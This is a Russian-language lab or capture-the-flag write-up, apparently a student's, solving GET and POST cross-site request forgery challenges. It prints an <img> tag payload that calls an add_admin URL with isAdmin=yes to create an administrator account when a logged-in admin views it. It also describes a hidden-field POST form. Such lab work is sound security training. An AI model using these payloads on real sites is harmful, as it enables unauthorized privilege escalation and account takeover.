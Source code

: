 # **Лабораторная 5**
### Get SCRF
* Зайти под тестовыми учтными данными "GET CSRF- testuser1/testpass1", ->Add Admin user и добавить админа с данными "shimishimie/shalalal". На панели разработчика во вкладке "Сеть" скопировать url запроса при создании админа "http://92.124.140.111:1337/add_admin?username=shimishimie&password=shalalal&isAdmin=yes&submit=Add+User". После этого, в message board прокинуть фото с этим url "<img src="http://92.124.140.111:1337/add_admin?username=shimishimie&password=shalalal&isAdmin=yes&submit=Add+User">". Выйти и зайти за админа и получить в флаге: "NOW_YOU_KNOW_GET_CSRF"
* Создать html файл стаким же тектом '<img src="http://92.124.140.111:1337/add_admin?username=shimishimie&password=shalalal&isAdmin=yes&submit=Add+User">'
* Если при создании нового админа логин оставить упстым, а в пароль ввести "<img src="http://92.124.140.111:1337/add_admin?username=shimishimie&password=shalalal&isAdmin=yes&submit=Add+User">", то тогда админ все равно создастся

### **Post SCRF**
Создать форму, которая была подготовлена в отдельном HTML-файле. Она содержала скрытые поля, имитирующие параметры запроса, которые сервер ожидал от пользователя. Загрузить, и зайдя за админа получить флаг: "DID_YOU_LIKE_POST_CSRF"

